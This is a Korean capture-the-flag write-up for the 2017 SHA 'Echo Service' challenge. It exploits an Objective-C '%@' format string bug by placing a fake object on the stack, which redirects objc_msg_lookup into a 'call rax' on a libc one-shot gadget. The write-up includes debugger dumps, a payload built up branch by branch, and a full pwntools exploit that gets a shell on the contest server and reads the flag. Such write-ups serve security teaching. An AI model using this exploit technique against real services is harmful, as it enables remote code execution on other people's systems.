


# 2017 SHA - Echo Service

## Key words

- amd64 | FULL RELRO | NX | SSP | PIE
- Object-c
- FSB (but Object-c version)
- construct fake frame

## Check Security

```
hackability@ubuntu:~/Home/TenDollar/ctf/pwnable/0019_2017_SHA_echoservice$ checksec --file echoservice
[*] '/media/psf/Home/TenDollar/ctf/pwnable/0019_2017_SHA_echoservice/echoservice'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

먼저 보안 모듈은 전부 걸려 있습니다.

문제를 보면 다음과 같습니다.

```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __int64 v3; // rax@1
  __int64 v4; // rbx@1
  int (__fastcall *v5)(__int64, char **); // rax@1
  __int64 v6; // rax@1
  __int64 v7; // rbx@1
  int (__fastcall *v8)(__int64, char **); // rax@1
  __int64 v9; // rax@1
  __int64 v10; // ST10_8@1
  __int64 v11; // rdx@1
  __int64 v12; // rax@1
  __int64 v13; // rbx@1
  int (__fastcall *v14)(__int64, char **); // rax@1
  __int64 v15; // rax@1
  __int64 v16; // rbx@1
  int (__fastcall *v17)(__int64, char **); // rax@1
  __int64 v18; // rax@1
  __int64 v19; // rbx@1
  void (__fastcall *v20)(__int64, char **); // rax@1
  void (__fastcall *v21)(__int64, char **); // rax@1

  LODWORD(v3) = objc_get_class("NSAutoreleasePool", a2, a3);
  v4 = v3;
  LODWORD(v5) = objc_msg_lookup(v3, off_202380);
  LODWORD(v6) = v5(v4, off_202380);
  v7 = v6;
  LODWORD(v8) = objc_msg_lookup(v6, off_202390);
  LODWORD(v9) = v8(v7, off_202390);
  v10 = v9;
  LODWORD(v12) = objc_get_class("EchoService", off_202390, v11);
  v13 = v12;
  LODWORD(v14) = objc_msg_lookup(v12, off_202380);
  LODWORD(v15) = v14(v13, off_202380);
  v16 = v15;
  LODWORD(v17) = objc_msg_lookup(v15, off_202390);
  LODWORD(v18) = v17(v16, off_202390);
  v19 = v18;
  LODWORD(v20) = objc_msg_lookup(v18, off_2023A0);
  v20(v19, off_2023A0);
  LODWORD(v21) = objc_msg_lookup(v10, off_2023B0);
  v21(v10, off_2023B0);
  return 0LL;
}
```

읭...?? 일반 C 형태의 코드가 아닙니다. 오브젝트 C를 개발해보신 분은 함수 심볼을 보고 바로 눈치를 챗겠지만 저는 함수 명으로 검색해서 해당 코드가 `object-c`로 되어 있음을 알았습니다.

바이너리 동작 형태는 단순히 echo 를 해주는데 입력 시 일반적인 `FSB`가 발생합니다.

```
hackability@ubuntu:~/Home/TenDollar/ctf/pwnable/0019_2017_SHA_echoservice$ ./echoservice
AAAAAAAA%08lx.%08lx.%08lx.%08lx.%08lx.%08lx.%08lx.%08lx.%08lx.%08lx.%08lx.%08lx       
2017-08-15 01:55:09.170 echoservice[26079] AAAAAAAA7ffff73ddb40.00000000.00000000.5555558385c0.00000000.5555557563a0.5555557cf6e0.00000000.555555842110.555555837bb0.00000000.4141414141414141
```

흥미로운 점은 `object-c`에서는 `%n`명령이 없다는 점 입니다. 때문에 임의 쓰기가 힘듭니다.

여러가지 검색 해본 결과 `object-c`에서는 `%@` 포멧 스트링을 제공해줍니다. `%@`명령은 `object-c` 오브젝트를 출력해주는 역할을 하는데 스펙은 다음과 같습니다.

```
%@n

Objective-C object, printed as the string returned by descriptionWithLocale: if available, or description otherwise. Also works with CFTypeRef objects, returning the result of the CFCopyDescription function.
```

테스트 해보면 세그 폴트가 뜨는것을 확인할 수 있습니다.

```
hackability@ubuntu:~/Home/TenDollar/ctf/pwnable/0019_2017_SHA_echoservice$ ./echoservice
AAAAAAAA%12$@
Segmentation fault (core dumped)
```

디버거로 해당 위치를 덤프 해보면 다음과 같습니다.

```
pwndbg> r
Starting program: /media/psf/Home/TenDollar/ctf/pwnable/0019_2017_SHA_echoservice/echoservice
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
AAAAAAAA%12$@

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff73f3c83 in objc_msg_lookup () from /usr/lib/x86_64-linux-gnu/libobjc.so.4
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[──────────REGISTERS──────────]
*RAX  0xb0
*RBX  0xffffffffffffffff
*RCX  0x7fffffffbc00 ◂— 0x5555f73ddb40
 RDX  0x0
*RDI  0x4141414141414141 ('AAAAAAAA')
*RSI  0x7ffff7ccf990 ◂— 0x1000000003
 R8   0x0
*R9   0x1e
 R10  0x0
 R11  0x0
*R12  0x7ffff7ccfa40 —▸ 0x7ffff7cdf4a0 —▸ 0x7ffff7cdf780 —▸ 0x7ffff75fda00 ◂— ...
*R13  0x4141414141414141 ('AAAAAAAA')
 R14  0x0
*R15  0x7fffffffbd10 ◂— 0xffffffff
*RBP  0x7fffffffcd70 —▸ 0x7fffffffde10 —▸ 0x555555841900 —▸ 0x7ffff7cde300 ◂— ...
*RSP  0x7fffffffbbc0 ◂— 0x30002000350031 /* '1' */
*RIP  0x7ffff73f3c83 (objc_msg_lookup+19) ◂— mov    rbx, qword ptr [rdi]
[──────────DISASM──────────]
 ► 0x7ffff73f3c83 <objc_msg_lookup+19>    mov    rbx, qword ptr [rdi]
   0x7ffff73f3c86 <objc_msg_lookup+22>    mov    rax, qword ptr [rsi]
   0x7ffff73f3c89 <objc_msg_lookup+25>    mov    rdx, qword ptr [rbx + 0x40]
   0x7ffff73f3c8d <objc_msg_lookup+29>    mov    r8d, eax
   0x7ffff73f3c90 <objc_msg_lookup+32>    mov    rcx, rax
   0x7ffff73f3c93 <objc_msg_lookup+35>    shl    r8d, 5
   0x7ffff73f3c97 <objc_msg_lookup+39>    shr    rcx, 0x20
   0x7ffff73f3c9b <objc_msg_lookup+43>    add    r8d, ecx
   0x7ffff73f3c9e <objc_msg_lookup+46>    cmp    r8, qword ptr [rdx + 0x28]
   0x7ffff73f3ca2 <objc_msg_lookup+50>    jb     objc_msg_lookup+80            <0x7ffff73f3cc0>
    ↓
   0x7ffff73f3cc0 <objc_msg_lookup+80>    mov    r8, qword ptr [rdx]
[──────────STACK──────────]
00:0000│ rsp  0x7fffffffbbc0 ◂— 0x30002000350031 /* '1' */
01:0008│      0x7fffffffbbc8 ◂— 0xffffffffffffffff
02:0010│      0x7fffffffbbd0 —▸ 0x7fffffffcd70 —▸ 0x7fffffffde10 —▸ 0x555555841900 ◂— ...
03:0018│      0x7fffffffbbd8 —▸ 0x7ffff7ccfa40 —▸ 0x7ffff7cdf4a0 —▸ 0x7ffff7cdf780 ◂— ...
04:0020│      0x7fffffffbbe0 ◂— 'AAAAAAAA'
05:0028│      0x7fffffffbbe8 ◂— 0x0
06:0030│      0x7fffffffbbf0 —▸ 0x7fffffffbd10 ◂— 0xffffffff
07:0038│      0x7fffffffbbf8 —▸ 0x7ffff7779ba9 ◂— lea    rdx, [rip + 0x555dd0]
[──────────BACKTRACE──────────]
 ► f 0     7ffff73f3c83 objc_msg_lookup+19
   f 1     7ffff7779ba9
   f 2     7ffff7793996
   f 3     7ffff797524b
   f 4     7ffff786eafb NSLogv+523
   f 5     7ffff786ee49 NSLog+153
   f 6     55555555514f
   f 7     55555555522e
   f 8     7ffff7039830 __libc_start_main+240
Program received signal SIGSEGV (fault address 0x0)
```

`rdi` 값이 우리가 처음에 넣은 `AAAAAAAA` 값을 가지고 있고 이 값을 포인터로 엑세스 하면서 세그폴트가 발생합니다.

해당 취약점이 발생하는 함수는 `objc_msg_lookup` 함수로 `libobjc.so.4`에서 제공되는 함수 입니다.

현재 플로우에서 뭔가 재미있는 플로우로 갈수 있는지 분석해봅니다.



조사 해본 결과 `call rax` 가젯이 `objc_msg_lookup`에 존재 했고 우리가 조작했던 레지스터 플로우로 부터 이 흥미로운 가젯까지 도달할수 있는 경로와 조건 그리고 마지막에 `rax`에 원샷 가젯을 넣을 수 있는지 분석해봅니다.


분석이 끝낫습니다. 분석속도가 브론즈인 저로써는 3일이 순삭 당했습니다.... :'(

공격 플로우는 다음과 같습니다.



보라색 플로우만 주목 하시면 됩니다. 다른 플로우도 `call rax` 가젯이 존재하지만 제가 이 플로우를 고집한 이유는 이 플로우 중간에 다른 함수 콜이 없다는 점 입니다.

만약 다른 함수 콜이 존재하면 그 안에서 무슨 동작을 할지 모르고 제가 힘들게 만들어 놓은 레지스터나 구조가 망가질 수 있고 또는 충돌이 발생될 수 있습니다.

플로우는 저 플로우를 따르면 되는데 이제 문제는 조건 입니다. 저 조건을 간단히 만들면 다음과 같습니다.

```
obj_msg_lookup
    mov     rbx, [rdi] 		  ; rdi can be controlled
    mov     rax, [rsi] 		
    mov     rdx, [rbx+0x40] ; edx can be controlled
    mov     r8, eax 		
    mov     rcx, rax 		
    shl     r8, 5 			
    shr     rcx, 0x20 	
    add     r8, ecx

    cmp     r8, [rdx+0x28] 	
/---jb    10CC0
|
| (FALSE) jmp if r8 < [rdx + 0x28] - cond_1 < 0x70
|
\-->mov   rax, [rdx+8]
    mov   rax, [rax] 		
/---jmp   10CAB
|
|	  ### 10CC0:
|   mov     r8, [rdx]
|   mov     eax, eax
|   mov     rax, [r8+rax*8]
|   mov     rax, [rax+rcx*8]
|
\-->### 10CAB
    test    rax, rax
/---je    short 10CE0
|
| (TRUE) jmp if rax == 0: cond_2
|
\-->### 10CE0:
    mov     r14, rsi
    mov     r13, rdi
    mov     r12, cs:__obj_uninstalled_dtable_ptr

    mov     rcx, [r12] 	
    cmp     rcx, rdx
/---jnz   10DC0
|
| (TRUE) jmp if rcx != rdx : maybe easy ? automatically to be TRUE
|
\-->### 10DC0:
    mov     rax, [r14]
    mov     edi, rax
    mov     rsi, rax
    shl     edi, 5
    shr     rsi, 0x20
    add     edi, esi

    cmp     rdi, [rdx+0x28]
/---jb    10EF0
|
| (FALSE) jmp if rdi < [rdx+0x28] ; automatically FALSE by cond_1
|
\-->mov   rax, [rdx+8] 	
    mov     rax, [rax]
/---jmp   10DE2
|
|	  ### 10EF0:
|   mov     rdx, [rdx]
|   mov     eax, eax
|   mov     rax, [rdx+rax*8]
|   mov     rax, [rax+rsi*8]
|   jmp     10DE2
|
\-->### 10DE2:
    test    rax, rax
/---jnz   10cb0
|
| (FALSE) RAX != 0 ; automatically FALSE by cond_1
|
\-->test  byte ptr [rbx+0x20], 2
/---jnz   10F27
|
| (FALSE) (byte *)rbx[4] & 2 != 0 : cond_3
|
\-->mov   rax, [rbx]      ; rax = [rbx]
    mov     rsi, cs:...
    mov     rdi, [rax+0x40] ; rdi = rax[8] = (*(*rdi))[8]
    mov     rdx, [rsi]
    mov     r8, [rdi+0x28]
    mov     r9d, edx
    mov     rax, rdx
    shl     r9d, 5
    shr     rax, 0x20
    add     r9d, eax
    cmp     r9, r8
/---jb    10F14 					
|
| (TRUE) r9 < r8 					
|
|   mov   rax, [rdi+8]
|   mov   rax, [rax]
|   jmp   10E2B
|
\-->### 10F14
    mov     r9, [rdi]       ; r9 = [rdi]
    mov     r10d, edx       ; r10d = edx
    mov     r9, [r9+r10*8]  ; r9 = r9[r10]  ; r10 = 0
    mov     rax, [r9+rax*8] ; rax = r9[rax] ; rax = 2
/---jmp   10E2B
|
|-->### 10E2B:
    test    rax, rax
/---jz    10F90 (FALSE)
|
| (FALSE) rax == 0
|
\-->mov   rd, r14 ; 10E34
    mov     rdi, rbx
    call    rax ; [*] That's what I want
```

이제 이 조건을 만족 시킬 수 있도록 페이로드를 구성하면 됩니다.

분석을 해보면 제 페이로드는 2곳에 존재합니다. (스택, 힙) 다른 라이트업에서는 힙을 이용해서 공략했으니 저는 스택을 이용해보도록 하겠습니다. 사실 스택 위치를 구하는거랑 힙 위치를 구하는게 별 차이가 없기 때문에 익스 자체는 크게 상관은 없습니다.

먼저 제 페이로드가 시작하는 위치를 구해야 합니다. 여러 가지 방법이 있을 수 있는데 고정적인 스택을 이용하여 오프셋으로 제 페이로드 시작 위치를 구해주면 됩니다.

```python
payload = "%140$lx"
p.sendline(payload)
data = p.recv()
stack_addr = int(data.split("] ")[1][:-1], 16) - 0x150 - 0x400
print "PAYLOAD : {}".format(hex(stack_addr))
```

한 가지 주의할 점은 원래 트리거 시에 `%12$@`으로 트리거 시켯지만 실제 우리의 페이로드는 포멧 스트링 다음에 위치해야 하므로 처음에 포멧 스트링을 8바이트 정렬을 한 값도 포함시켜야 합니다. 따라서 포멧 스트링 (8바이트)은 `%13$@ZZZ` 로 하고 그 뒤에 우리의 페이로드가 붙습니다.

처음 크래쉬 위치의 어셈블 코드를 보면 `rdi`를 컨트롤 할수 있기 때문에 `rbx`도 오염되고 따라서 `rbx+0x40` 역시 컨트롤 하여 `rdx`까지 오염시킬 수 있습니다.

```
► 0x7ffff73f3c83 <objc_msg_lookup+19>    mov    rbx, qword ptr [rdi]
  0x7ffff73f3c86 <objc_msg_lookup+22>    mov    rax, qword ptr [rsi]
  0x7ffff73f3c89 <objc_msg_lookup+25>    mov    rdx, qword ptr [rbx + 0x40]
```

일단 스택 위치로 넣어 봅니다.

```python
(assume that payload already had '%13$@ZZZ')
payload = p64(stack_addr) + "A"*8             # rbx = &payload
payload += "B" * 0x30
payload += p64(stack_addr+0x50) + "C"*8       # rdx = [rbx+0x40]
payload += p64(stack_addr+0x50) + "D"*8       # rdx = &payload + 0x50
payload += "E" * 0x10
paylaod += "F" * 8 + "Z" *8
```

`rdx`는 `[rbx+0x40]`을 갖는데 `p64(stack_addr+0x50)`으로 한 이유는 좀더 유연하게 제가 원하는 값을 넣기 위해 설정했습니다.

그리고 `rdx`를 쉽게 다루기 위해 `rdx`위치 역시 `rdx`를 가리키도록 했습니다.

이제 플로우를 태워보면 처음에 맞춰야 하는 조건은 다음과 같습니다.

```
    cmp 	r8, [rdx+0x28] ; [*] <-- HERE
/---jb  	10CC0
|
| (FALSE) jmp if r8 < [rdx + 0x28] - cond_1 < 0x70
|
\-->mov 	rax, [rdx+8]
    mov 	rax, [rax]
```

`r8`과 `[rdx+0x28]`을 비교 하는데 이 조건이 `True`가 되면 `deadend` 루틴으로 가기 때문에 `False`로 만들어야 합니다. 테스트 해보면 `r8`값이 `0x70`을 갖기 때문에 `[rdx+0x28]` 값은 `0x70`보다 작아야 합니다.

위에서 마지막 `Z * 8`의 위치가 `[rdx+0x28]` 이기 때문에 이 값을 0으로 설정합니다.

그러면 현재 페이로드는 다음과 같습니다.

```python
(assume that payload already had '%13$@ZZZ')
payload = p64(stack_addr) + "A"*8             # rbx = &payload
payload += "B" * 0x30
payload += p64(stack_addr+0x50) + "C"*8       # rdx = [rbx+0x40]
payload += p64(stack_addr+0x50) + "D"*8       # rdx = &payload + 0x50
payload += "E" * 0x10
paylaod += "F" * 8
payload += p64(0)                             # cond_1 : [rdx+0x28]
```

그 다음 비교 루틴을 따라 가보면 다음과 같습니다.

```
/---jb    10CC0
|
| (FALSE) jmp if r8 < [rdx + 0x28] - cond_1 < 0x70
|
\-->mov   rax, [rdx+8]
    mov   rax, [rax] 		
/---jmp   10CAB
|
|   ### 10CC0:
|   mov   r8, [rdx]
|   mov   eax, eax
|   mov   rax, [r8+rax*8]
|   mov   rax, [rax+rcx*8]
|
\-->### 10CAB  ; [*] <-- HERE
    test  rax, rax
/---je    short 10CE0
|
| (TRUE) jmp if rax == 0: cond_2
|
\-->### 10CE0:
```

이 분기에서는 `True`를 만들어 주어야 합니다. 그러면 `rax`가 0 이여야 하는데 `rax`는 `*[rdx+8]`이 됩니다. 이 포인터 값 역시 우리가 원하는 값으로 만들 수 있기 때문에 이 조건을 만들어 줍니다. 이번에도 넉넉히 페이로드를 쓰기위에 뒤쪽에 배치 했습니다.

```python
(assume that payload already had '%13$@ZZZ')
payload = p64(stack_addr) + "A"*8             # rbx = &payload
payload += "B" * 0x30
payload += p64(stack_addr+0x50) + "C"*8
payload += p64(stack_addr+0x50)               # rdx = &payload + 0x50
payload += p64(stack_addr+0x50+0x30)          # [rdx+8] : for cond_2
payload += "E" * 0x10
paylaod += "F" * 8
payload += p64(0)                             # cond_1 : [rdx+0x28]
payload += p64(0)                             # *[rdx+8] point here for cond_2
```

다음 조건을 보면 다음과 같습니다.

```
\-->### 10CE0:
    mov     r14, rsi
    mov     r13, rdi
    mov     r12, cs:__obj_uninstalled_dtable_ptr

    mov     rcx, [r12] 	
    cmp     rcx, rdx
/---jnz     10DC0
|
| (TRUE) jmp if rcx != rdx : maybe easy ? automatically to be TRUE
|
\-->### 10DC0:
    mov     rax, [r14]
    mov     edi, rax
```

`rcx`와 `rdx`가 같지 않아야 하는데 이 부분은 테스트 해보면 자동적으로 갖지 않게 됩니다. 이 부분은 무시해도 되겠군요 :)

다음 조건을 보면 다음과 같습니다.

```
\-->### 10DC0:
    mov     rax, [r14]
    mov     edi, rax
    mov     rsi, rax
    shl     edi, 5
    shr     rsi, 0x20
    add     edi, esi

    cmp     rdi, [rdx+0x28]
/---jb      10EF0
|
| (FALSE) jmp if rdi < [rdx+0x28] ; automatically FALSE by cond_1
|
\-->mov     rax, [rdx+8] 	
    mov     rax, [rax]
/---jmp     10DE2
```

`rdi < [rdx+0x28]`의 조건이 `False`가 되어야 합니다. 그런데 처음에 `cond_1`에서 이미 이 값을 0 으로 설정했고 `rdi`는 0보다 크기 때문에 자동적으로 이 루틴도 원하는 플로우를 타게 됩니다. 이 부분도 자동으로 넘어 가겠군요 :)

다음 조건을 보면 다음과 같습니다. (`10DE2`)

```
\-->### 10DE2:
    test    rax, rax
/---jnz     10cb0
|
| (FALSE) RAX != 0 ; automatically FALSE by cond_1
```

이 루틴은 `RAX != 0`의 조건을 `False`시켜야 합니다. 이 부분 역시 `cond_2`에서 이미 0 으로 설정했기 때문에 우리가 원하는 플로우로 이동할 수 있습니다

다음 조건을 보면 다음과 같습니다.

```
    test    rax, rax
/---jnz     10cb0
|
| (FALSE) RAX != 0
|
\-->test    byte ptr [rbx+0x20], 2
/---jnz     10F27
|
| (FALSE) (byte *)rbx[4] & 2 != 0 : cond_3
|
\-->mov     rax, [rbx]
    mov     rsi, cs:...
    mov     rdi, [rax+0x40]
```

지금 `test byte ptr [rbx+0x20], 2` 조건을 `False` 시켜야 합니다. `test` 연산은 `and` 연산을 하기 때문에 `rbx+0x20`의 위치의 값을 홀수로 넣어야 합니다. 간단히 1로 넣도록 하겠습니다.

```python
(assume that payload already had '%13$@ZZZ')
payload = p64(stack_addr) + "A"*8             # rbx = &payload
payload += "B" * 0x10
payload += p64(1)                             # for cond_3 <-- [rbx+0x20]
payload += "B" * 0x18
payload += p64(stack_addr+0x50) + "C"*8
payload += p64(stack_addr+0x50)               # rdx = &payload + 0x50
payload += p64(stack_addr+0x50+0x30)          # [rdx+8] : for cond_2
payload += "E" * 0x10
paylaod += "F" * 8
payload += p64(0)                             # cond_1 : [rdx+0x28]
payload += p64(0)                             # *[rdx+8] point here for cond_2
```

다음 조건을 보면 다음과 같습니다.

```
\-->mov     rax, [rbx]      ; rax = [rbx]
    mov     rsi, cs:...
    mov     rdi, [rax+0x40] ; rdi = rax[8] = (*(*rdi))[8]
    mov     rdx, [rsi]
    mov     r8, [rdi+0x28]
    mov     r9d, edx
    mov     rax, rdx
    shl     r9d, 5
    shr     rax, 0x20
    add     r9d, eax
    cmp     r9, r8 	   		
/---jb      10F14 					
|
| (TRUE) r9 < r8 : cond_4
|
|   mov     rax, [rdi+8]
|   mov     rax, [rax]
|   jmp     10E2B
|
\-->### 10F14
    mov     r9, [rdi]     ; r9 = [rdi]
    mov     r10d, edx     ; r10d = edx
```

`r9 < r8` 구문을 `True`로 만들어야 합니다. 먼저 `r8`을 살펴 보면 `[rdi+0x28]`을 갖는데 `rdi`는 `[rax+0x40]`이고 `rax`는 `[rbx]`이기 때문에 우리의 페이로드에서 `[[payload + 0x40] + 0x28]`을 하는 것과 같습니다.

이 부분을 다시 한번 잘 보시면 `cond_1`의 조건 위치 입니다. `cond_1 < 0x70` 신께 기도를 10번 한 뒤, `r9`값을 살펴 본 결과 다행히 `0x70`보다 작았습니다. 그래서 `cond_1`의 위치의 값을 다시 설정합니다.

`r9 < cond_1 < 0x70`

저는 간단히 `0x10`으로 설정했습니다.

```python
(assume that payload already had '%13$@ZZZ')
payload = p64(stack_addr) + "A"*8             # rbx = &payload
payload += "B" * 0x10
payload += p64(1)                             # for cond_3 <-- [rbx+0x20]
payload += "B" * 0x18
payload += p64(stack_addr+0x50) + "C"*8
payload += p64(stack_addr+0x50)               # rdx = &payload + 0x50
payload += p64(stack_addr+0x50+0x30)          # [rdx+8] : for cond_2
payload += "E" * 0x10
paylaod += "F" * 8
-> payload += p64(0x10)                       # cond_1 : [rdx+0x28], cond_4
payload += p64(0)                             # *[rdx+8] point here for cond_2
```

자...이제 마지막 루틴 입니다.

```
\-->### 10F14
    mov     r9, [rdi] 	  	; r9 = [rdi]
    mov     r10d, edx 	  	; r10d = edx
    mov     r9, [r9+r10*8] 	; r9 = r9[r10]  ; r10 = 0
    mov     rax, [r9+rax*8] ; rax = r9[rax] ; rax = 2
    jmp     10E2B

    ### 10E2B:
    test    rax, rax
/---jz      10F90 (FALSE)
|
| (FALSE) rax == 0
|
\-->mov     rd, r14 ; 10E34
    mov     rdi, rbx
    call    rax ; [*] That's what I want
```

`call rax`를 해야 하기 때문에 뒤쪽에 있는 `test rax, rax (False)`는 의미가 없습니다. (RAX는 원샷 가젯 주소를 가지고 있기 때문에)

`10F14` 루틴이 `RAX`를 생성하는 중요한 루틴입니다. 살펴 보면 다음과 같습니다.

```
R9  = [RDI + R10*8] = RDI[R10]
RAX = R9[RAX]
```

먼저 `RDI`값은 `cond_4` 루틴에서 `[RBX+0x40]` 즉 `&payload + 0x50`을 가지고 있습니다. 이 루틴에 올때 `R10`은 0 이기 때문에 `R9 = &payload+0x50`을 갖습니다. 그 뒤에 `RAX` 값이 2를 가지고 있기 때문에 결국 `(&payload+0x50)[2]` 를 `RAX`에 넣습니다.

그리고 이 값을 CALL 하기 때문에 (&payload+0x50)+0x10 위치에 원샷 가젯을 넣습니다.

그러면 최종 페이로드는 다음과 같습니다.

```python
payload =  "%13$@" + "ZZZ"
payload += p64(stack_addr)              # RBX (stack_addr) = &payload
payload += "A2"*4
payload += "B1"*4
payload += "B2"*4
payload += p64(1)                       # cond_3 : *cond_3 & 2 != 0 <-- rbx+0x20
payload += "C2"*4
payload += "D1"*4
payload += "D2"*4
payload += p64(stack_addr+0x50)         # RDX will be this value
payload += "E2"*4
payload += p64(stack_addr+0x50)         # RDX (&payload+0x50)
payload += p64(stack_addr+0x50+0x30)    # cond_2 : *[rdx+8] == 0
payload += p64(one_shot)                # RDX + 0x10
payload += "G2"*4
payload += "H1"*4
payload += p64(0x10)                    # cond_1 : < 0x70 and con_4 : >= r9
payload += p64(0)                       # cond_2
```

중간에 제가 컨트롤할 수 없는 값들이 주소에 의해 변경되기 때문에 익스 코드는 한번에 되지 않고 몇번 시도를 해보아야 합니다.

## Solution code

```python
#-*- coding: utf-8 -*-

from pwn import *
context(arch='i386', os='linux')

DEBUG = False

def leak(addr, size, title=""):
	if DEBUG == False:
		return
	print " *** {} : {} ***".format(hex(addr), title)
	print hexdump(p.leak(addr, size))

server = "echo.stillhackinganyway.nl"
port = 1337
target = "./echoservice"

p = None
if len(sys.argv) == 2:
	p = remote(server, port)
else:
	DEBUG = True
	p = process(target)

# %140$lx = stack addr
# &payload = (stack addr - 0x150) - 0x400

payload = "%lx"
p.sendline(payload)
data = p.recv()
libc_addr = int(data.split("] ")[1][:-1], 16) - 0x3c4b40
one_shot  = libc_addr + 0x4526a
print "LIBC    : {}".format(hex(libc_addr))

payload = "%140$lx"
p.sendline(payload)
data = p.recv()
stack_addr = int(data.split("] ")[1][:-1], 16) - 0x150 - 0x400
print "PAYLOAD : {}".format(hex(stack_addr))
leak(stack_addr, 0x40, "&payload")

# for debugging
# stack_addr + 0x40 = "E"*8
# set $rdx=$rbx+0x50

stack_addr += 8

payload =  "%13$@" + "ZZZ"
payload += p64(stack_addr) 				# RBX (stack_addr)
payload += "A2"*4
payload += "B1"*4
payload += "B2"*4
payload += p64(1) 						# cond_3 : *cond_3 & 2 != 0
payload += "C2"*4
payload += "D1"*4
payload += "D2"*4
payload += p64(stack_addr+0x50)         # p64(stack_addr+0x50) -> RDX
payload += "E2"*4
payload += p64(stack_addr+0x50)	        # RDX (=stck_addr+0x50)
payload += p64(stack_addr+0x50+0x30)	# cond_1 : *&cond_1 = 0
payload += p64(one_shot)
payload += "G2"*4
payload += "H1"*4
payload += p64(0x10) 					# cond_1 : < 0x70
payload += p64(0)						# cond_2 : cond_1

leak(stack_addr, 0x80, "&payload")
p.sendline(payload)

p.sendline("ls -al")
print p.recv()

p.sendline("cat flag")
print p.recv()
```

## Result

```
hackability@ubuntu:~/Home/TenDollar/ctf/pwnable/0019_2017_SHA_echoservice$ python sol_echoservice.py 1
[+] Opening connection to echo.stillhackinganyway.nl on port 1337: Done
LIBC    : 0x7f3962339000
PAYLOAD : 0x7fffb283e7f0
total 124
drwxr-xr-x  23 root root  4096 Aug 11 06:11 .
drwxr-xr-x  23 root root  4096 Aug 11 06:11 ..
drwxr-xr-x   2 root root 12288 Aug  1 16:24 bin
drwxr-xr-x   3 root root  4096 Aug 11 06:11 boot
drwxr-xr-x  15 root root  3820 Aug  7 10:25 dev
-rwxr-xr-x   1 root root 11352 Aug  1 16:36 echoservice
drwxr-xr-x 103 root root  4096 Aug  4 06:56 etc
-rw-r--r--   1 root root    38 Aug  1 16:36 flag
drwxr-xr-x   4 root root  4096 Aug  1 16:36 home
lrwxrwxrwx   1 root root    30 Aug 11 06:11 initrd.img -> boot/initrd.img-4.4.0-1030-aws
lrwxrwxrwx   1 root root    30 Aug  4 06:56 initrd.img.old -> boot/initrd.img-4.4.0-1028-aws
drwxr-xr-x  21 root root  4096 Jun 20 00:08 lib
drwxr-xr-x   2 root root  4096 Jun 19 23:49 lib64
drwx------   2 root root 16384 Jun 19 23:58 lost+found
drwxr-xr-x   2 root root  4096 Jun 19 23:49 media
drwxr-xr-x   2 root root  4096 Jun 19 23:49 mnt
drwxr-xr-x   2 root root  4096 Jun 19 23:49 opt
d--x--x--x 116 root root     0 Aug  7 10:25 proc
drwx------   3 root root  4096 Aug  1 16:35 root
drwxr-xr-x  23 root root   980 Aug 11 06:11 run
-rwxr-xr-x   1 root root    35 Aug  5 15:22 run_echo.sh
drwxr-xr-x   2 root root 12288 Aug  1 16:24 sbin
drwxr-xr-x   2 root root  4096 Apr 29 08:38 snap
drwxr-xr-x   2 root root  4096 Jun 19 23:49 srv
dr-xr-xr-x  13 root root     0 Aug 15 08:36 sys
